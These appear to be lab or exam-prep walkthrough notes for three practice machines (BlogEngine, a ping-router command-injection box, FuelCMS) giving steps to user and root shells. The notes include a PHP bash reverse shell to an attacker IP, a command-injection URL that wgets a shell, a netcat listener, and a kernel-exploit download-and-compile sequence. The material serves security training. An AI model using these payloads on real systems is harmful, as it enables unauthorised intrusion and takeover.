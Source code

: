 ```bash
Bengine (.85)
```
Operating SystemWindows
Points20
Similar Machine (User)TryHackMe’s HackPark
Similar Machine (Root)
Exploit in Getting User
1. Nmap reveals hidden directory in robots.txt - /blogengine
2. Look for exploits in searchsploit or follow this
https://medium.com/@nickbhe/tryhackme-hackpark-writeup-db34b7957bef
1. User shell!
Privilege Escalation to Root
1. Vulnerable to SeCreateTokenPrivilege
2. Follow https://www.greyhathacker.net/?p=1025
3. Root shell!

```bash
thelongnight (.95)
```
Operating SystemLinux
Points20
Similar Machine (User)Code is similar to
https://github.com/lolypop55/html5_snmp
Similar Machine (Root)HackTheBox’s Help
Exploit in Getting User
1. Go to Port 4080 and login as admin:admin
2. Command Injection in http://192.168.XX.95:4080/ping_router.php?cmd=1.1.1.1
3. Create php reverse shell -
<?php exec("bash -c 'bash -i >& /dev/tcp/192.168.XX.XX/80 0>&1'"); ?>
1. Start a web server: python -m SimpleHTTPServer 80
2. Upload it via command injection -
http://192.168.XX.95:4080/ping_router.php?cmd=1.1.1.1;wget+192.168.XX.XX/shell.php
1. Start Listener - nc -lvnp 80
2. Browser http://192.168.XX.95:4080/shell.php
3. User shell!
Privilege Escalation to Root
1. Machine Kernel is vulnerable to https://www.exploit-db.com/exploits/45010
2. wget http://x.x.x.x:143/45010.c -O /tmp/45010.c
3. gcc /tmp/45010.c -o /tmp/45010
4. ./tmp/45010
5. Root shell!

```bash
webpack (.96)
```
Operating SystemLinux
Points20
Similar Machine (User)TryHackMe’s Ignite
Similar Machine (Root)HackThebox’s Jarvis
Exploit in Getting User
1. Run un gobuster on port 80 and you will get /index.php/fuel
2. Login as admin:admin
3. FuelCMS is vulnerable to https://www.exploit-db.com/exploits/47138
4. Modify the URL and directories
5. For the reverse shell make sure you use port 80 to bypass the iptables
6. User shell!
Privilege Escalation to Root
1. Run Linux Enumeration script
2. You will see it has systemctl
3. /var/www/html/assets/images/ is writable
4. Follow this -
https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl
-permissions-bc62b0b28d49
1. Root shell!
Recent Update for Priv.Esc.: